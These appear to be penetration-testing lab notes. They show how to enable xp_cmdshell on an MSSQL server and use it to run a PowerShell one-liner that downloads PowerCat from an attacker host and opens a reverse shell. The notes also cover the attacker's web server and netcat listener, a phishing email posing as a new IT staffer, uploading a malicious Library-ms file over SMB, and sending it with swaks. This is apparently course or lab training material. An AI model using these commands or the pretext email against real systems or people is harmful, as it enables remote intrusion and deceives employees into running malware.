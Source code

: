 ```Enable xp_cmdshell (if not already enabled):
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
Use xp_cmdshell to run PowerShell commands to download PowerCat and execute it. For example, a command injection payload could do the following:
IEX (New-Object System.Net.Webclient).DownloadString('http://<your-ip>/powercat.ps1');powercat -c <your-ip> -p 4444 -e powershell
Encoded and used inside xp_cmdshell:

EXECUTE xp_cmdshell 'powershell -Command "IEX (New-Object System.Net.Webclient).DownloadString(''http://<your-ip>/powercat.ps1'');powercat -c <your-ip> -p 4444 -e powershell"';
Run a Python3 web server on your Kali machine in the directory containing powercat.ps1 to serve the PowerCat script:
python3 -m http.server 80
Start a netcat listener on your Kali machine for catching the shell:
nc -nvlp 4444
Important Notes:
Replace <your-ip> with your Kali machine IP.
Make sure the SQL user running your injection has sufficient privileges to execute xp_cmdshell.
You might need to URL encode or adapt this payload depending on how the injection works in your scenario.
If you want a quick example for manual injection via impacket-mssqlclient:

EXECUTE xp_cmdshell 'powershell -Command "IEX (New-Object System.Net.Webclient).DownloadString(''http://192.168.119.3/powercat.ps1'');powercat -c 192.168.119.3 -p 4444 -e powershell"';
Then serve powercat.ps1 on your attacker machine and listen for an incoming connection.
```

#### Example email content
```
Hello! My name is Dwight, and I'm a new member of the IT Team. 

This week I am completing some configurations we rolled out last week.
To make this easier, I've attached a file that will automatically
perform each step. Could you download the attachment, open the
directory, and double-click "automatic_configuration"? Once you
confirm the configuration in the window that appears, you're all done!

If you have any questions, or run into any problems, please let me
know!
```

#### Copy **automatic_configuration.lnk** and **config.Library-ms** to our WebDAV directory on our Kali machine, then upload the Library file to the SMB share on the HR137 machine
```
smbclient //192.168.50.195/share -c 'put config.Library-ms'
```

#### Or you can drag and drop the shortcut icon into the config location n Windows Explorer
![[auto_config and config to webdav.png]]
#### Using swaks to send an email
```Shell
swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.196.242 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
```
